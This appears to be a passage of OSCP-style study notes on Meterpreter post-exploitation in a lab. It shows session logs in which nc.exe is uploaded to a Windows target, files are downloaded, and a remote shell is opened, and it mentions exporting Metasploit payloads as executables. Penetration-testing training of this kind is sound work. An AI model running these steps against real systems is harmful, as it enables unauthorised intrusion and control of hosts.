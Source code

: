 
 let’s try some uploads and downloads using built-in Meterpreter commands. Take note that,due to shell escaping, we must use two “\” characters for the destination path as shown below
 
 meterpreter > upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec
[*] uploading :/usr/share/windows-resources/binaries/nc.exe -> c:\Users\Offsec
[*] uploaded :/usr/share/windows-resources/binaries/nc.exe -> c:\Users\Offsec\nc.exe
meterpreter > download c:\\Windows\\system32\\calc.exe /tmp/calc.exe
[*] Downloading: c:\Windows\system32\calc.exe -> /tmp/calc.exe
[*] Downloaded 25.50 KiB (100.0%): c:\Windows\system32\calc.exe -> /tmp/calc.exe
[*] download : c:\Windows\system32\calc.exe -> /tmp/calc.exe
meterpreter > 

 
 meterpreter includes basic file system commands such as pwd, ls, and cd to navigate thetarget filesystem.
 
 meterpreter > shell
Process 3488 created.
Channel 3 created.
C:\Windows\system32> ftp 127.0.0.1
ftp 127.0.0.1
> ftp: connect :Connection refused
^C
Terminate channel 3? [y/N] y
meterpreter > shell
Process 3504 created.
Channel 4 created.
C:\Windows\system32> exit
exit
meterpreter >

 
 shell
command, there are also built-in meterpreter commands we can use. For example, the execute
command launches an application, ps lists all running processes, and kill terminates a given
process
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/7.jpg)
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/8.jpg)
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/9.jpg)
22.3.3.2 Exercise


22.3.3.2 Exercise

1) Take time to review and experiment with the various payloads available in Metasploit
22.3.4 Executable Payloads

22.3.4 Executable Payloads


• The Metasploit Framework payloads can also be exported into various file types and formats, suchas ASP, VBScript, Jar, War, Windows DLL and EXE, and more.
